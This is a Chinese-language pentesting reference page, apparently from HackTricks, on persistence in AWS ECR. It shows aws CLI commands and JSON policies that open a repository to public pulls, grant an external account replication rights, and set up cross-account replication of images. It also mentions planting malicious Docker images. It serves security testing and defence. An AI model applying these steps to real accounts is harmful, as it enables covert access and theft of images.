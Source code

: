 # AWS - ECR 持久性

{{#include ../../../banners/hacktricks-training.md}}

## ECR

有关更多信息，请查看：

{{#ref}}
../aws-services/aws-ecr-enum.md
{{#endref}}

### 带有恶意代码的隐藏 Docker 镜像

攻击者可以 **将包含恶意代码的 Docker 镜像上传** 到 ECR 存储库，并利用它在目标 AWS 账户中保持持久性。攻击者随后可以以隐蔽的方式将恶意镜像部署到账户内的各种服务，例如 Amazon ECS 或 EKS。

### 存储库策略

向单个存储库添加策略，授予自己（或所有人）对存储库的访问权限：
```bash
aws ecr set-repository-policy \
--repository-name cluster-autoscaler \
--policy-text file:///tmp/my-policy.json

# With a .json such as

{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
> [!WARNING]
> 请注意，ECR要求用户在通过IAM策略**进行身份验证**之前，必须具有**权限**以调用**`ecr:GetAuthorizationToken`** API，以便能够向注册表推送或拉取任何来自任何Amazon ECR存储库的镜像。

### 注册表策略与跨账户复制

可以通过配置跨账户复制自动复制外部账户中的注册表，在此过程中需要**指明外部账户**，以便您想要复制注册表。

<figure><img src="../../../images/image (79).png" alt=""><figcaption></figcaption></figure>

首先，您需要通过**注册表策略**授予外部账户对注册表的访问权限，例如：
```bash
aws ecr put-registry-policy --policy-text file://my-policy.json

# With a .json like:

{
"Sid": "asdasd",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::947247140022:root"
},
"Action": [
"ecr:CreateRepository",
"ecr:ReplicateImage"
],
"Resource": "arn:aws:ecr:eu-central-1:947247140022:repository/*"
}
```
然后应用复制配置：
```bash
aws ecr put-replication-configuration \
--replication-configuration file://replication-settings.json \
--region us-west-2

# Having the .json a content such as:
{
"rules": [{
"destinations": [{
"region": "destination_region",
"registryId": "destination_accountId"
}],
"repositoryFilters": [{
"filter": "repository_prefix_name",
"filterType": "PREFIX_MATCH"
}]
}]
}
```
{{#include ../../../banners/hacktricks-training.md}}
